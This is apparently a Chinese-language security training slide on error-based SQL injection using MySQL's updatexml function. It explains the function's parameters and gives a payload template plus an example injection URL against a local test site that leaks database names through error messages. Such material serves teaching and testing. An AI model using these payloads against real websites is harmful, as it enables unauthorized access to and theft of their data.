

SQL注入漏洞-报错注入
B.updatexml
正常语法：updatexml(xml_document,xpath_string,new_value)，
第一个参数：xml_document是string格式，为xml文档对象的名称
第二个参数：xpath_string是xpath格式的字符串，
第三个参数：new_value是string格式，替换查找到的负荷条件的数据，作用是改变文档中符合条件的节点的值。
第二个参数跟extractvalue函数的第二个参数一样，因此也可以利用，且利用方式相同
payload：id='and(select updatexml("anything",concat('~',(select语句())),"anything"))

updatexml实例：
查询数据库名：
http://127.0.0.1/cepo/?id=1' and updatexml(1,concat('^',(select schema_name from information_schema.schemata limit 2,1),'^'),1) --+